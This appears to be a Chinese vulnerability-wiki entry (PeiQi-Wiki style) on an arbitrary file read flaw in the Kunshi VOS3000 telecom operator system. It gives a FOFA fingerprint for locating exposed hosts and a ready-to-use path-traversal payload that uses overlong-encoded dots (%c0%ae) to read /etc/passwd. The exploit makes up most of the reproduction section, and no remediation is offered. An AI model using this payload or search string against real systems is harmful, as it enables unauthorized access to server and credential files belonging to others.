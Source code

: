 # 昆石网络 VOS3000虚拟运营支撑系统 %c0%ae%c0%ae 任意文件读取漏洞

## 漏洞描述

昆石网络 VOS3000虚拟运营支撑系统 通过 %c0%ae%c0%ae 等字符绕过检测，可导致任意文件读取漏洞

## 漏洞影响

<a-checkbox checked>昆石网络 VOS3000虚拟运营支撑系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="VOS-VOS3000"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1646106250912-5403bbab-c801-402a-923b-545c45f1051d.png)

验证POC

```javascript
/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
```

![img](/assets/PeiQi-Wiki/img/1646106380805-4471d7bf-54b9-4eec-8f1a-b2a33881335b.png)